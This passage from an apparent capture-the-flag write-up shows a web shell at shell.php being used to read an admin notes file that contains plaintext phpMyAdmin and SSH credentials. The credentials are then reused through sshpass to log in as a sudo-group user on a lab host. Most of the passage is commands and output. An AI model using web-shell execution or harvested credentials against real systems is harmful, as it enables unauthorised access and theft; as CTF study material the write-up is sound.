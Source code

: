 **Found interesting file: `admin-notes.txt`**

---

## Privilege Escalation to shopuser

### Reading Admin Notes

```bash
curl -s "http://172.19.4.10/uploads/shell.php?c=cat+/var/www/html/admin-notes.txt"
```

**Output:**
```
# Securinets Operations Memo

- phpMyAdmin credentials: pma_admin / SecurinetsPMA!2025
- SSH service account: shopuser / SecurinetsShop2025!
- Reminder: regenerate shop catalog nightly after resetting database.
```

**SSH Credentials Found:**
- **Username**: `shopuser`
- **Password**: `SecurinetsShop2025!`

### SSH Access as shopuser

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10
```

Or test access:

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'id && hostname && pwd'
```

**Output:**
```
uid=1001(shopuser) gid=1001(shopuser) groups=1001(shopuser),27(sudo)
b0bbbb1eca83
/home/shopuser
```

✅ **SSH access as shopuser obtained!**  
✅ **User is in sudo group (GID 27)**

### Listing Home Directory

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'ls -la ~/'
```

**Output:**
```
total 36
drwxr-x--- 1 shopuser shopuser 4096 Oct 26 02:19 .
drwxr-xr-x 1 root     root     4096 Oct 26 00:31 ..
-rw------- 1 shopuser shopuser   25 Oct 26 02:19 .bash_history
-rw-r--r-- 1 shopuser shopuser  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 shopuser shopuser 3771 Mar 31  2024 .bashrc
drwx------ 2 shopuser shopuser 4096 Oct 26 02:18 .cache
-rw-r--r-- 1 shopuser shopuser  807 Mar 31  2024 .profile
-rw-r--r-- 1 shopuser shopuser   43 Oct 26 00:31 user.txt
```
